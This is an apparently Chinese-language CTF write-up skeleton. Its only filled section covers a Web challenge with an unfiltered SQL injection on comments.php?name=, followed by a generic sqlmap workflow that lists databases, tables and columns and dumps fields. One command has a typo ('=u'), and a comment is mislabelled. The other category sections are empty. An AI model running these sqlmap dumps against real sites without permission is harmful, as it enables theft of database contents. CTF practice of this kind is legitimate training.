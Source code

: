 ## Web

### Word-For-You

无``WAF``的``SQL``注入:填完留言表后点查询留言，发现``url``的形式是: ``comments.php?name=admin``, 尝试用



总结一下``sqlmap``注入语句的流程：

```sql
sqlmap -u 'url' --dbs #列出数据库名
sqlmap -u 'url' -D dbname --tables #列出表名
sqlmap -u 'url' -D dbname -T tablename --columns #列出表名
sqlmap =u 'url' -D dbname -T tablename -C 'id,name' --dump #列出字段的数据
```



## Reverse



## Pwn



## Crypto



## Misc



## BlockChain


